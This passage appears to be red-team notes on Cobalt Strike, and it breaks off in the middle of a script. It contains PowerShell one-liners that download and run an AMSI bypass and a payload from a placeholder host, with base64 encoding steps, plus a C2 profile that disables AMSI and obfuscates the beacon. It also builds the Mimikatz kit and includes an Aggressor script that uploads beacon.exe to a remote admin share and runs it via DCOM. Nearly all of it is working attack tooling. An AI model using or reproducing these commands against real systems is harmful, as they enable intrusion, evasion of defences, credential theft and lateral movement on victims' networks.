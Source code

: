 Windows
`$str = 'IEX(IWR -Uri http://[host]:[port]/bypass -UseBasicParsing);IEX(IWR -Uri http://[host]:[port]/[payload] -UseBasicParsing)'`
`[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))`

Linux
`set str 'IEX(IWR http://[host]/bypass -UseBasicParsing);IEX(IWR http://[host]/[payload] -UseBasicParsing)'`
`echo -en $str | iconv -t UTF-16LE | base64 -w 0`
#### Profile Changes
/home/attacker/cobaltstrike/teamserver/c2-profiles/custom/custom.profile
```
set sleeptime "1";
set tasks_max_size "2097152";

stage {
	set userwx "false";
	set cleanup "true";
	set obfuscate "true";
	set module_x64 "xpsservices.dll";
}

post-ex {
	set amsi_disable "true";
	set spawnto_x64 "c:\\windows\\sysnative\\dllhost.exe";
	set spawnto_x86 "c:\\windows\\syswow64\\dllhost.exe";
}
```
## Extending Cobalt Strike
#### Mimikatz Kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz`
`./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`
#### Jump and Remote-Exec
C:\\Tools\\cobaltstrike\\custom\\dcom.cna
```php
sub invoke_dcom
{
	local('$handle $script $oneliner $payload');
	
	# acknowledge this command1
	btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");
	
	# read in the script
	$handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
	$script = readb($handle, -1);
	closef($handle);
	
	# host the script in Beacon
	$oneliner = beacon_host_script($1, $script);
	
	# generate stageless payload
	$payload = artifact_payload($3, "exe", "x64");
	
	# upload to the target
	bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);
	
	# run via powerpick
	bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);
	
	# link if p2p beacon
	beacon_link($1, $2, $3);
```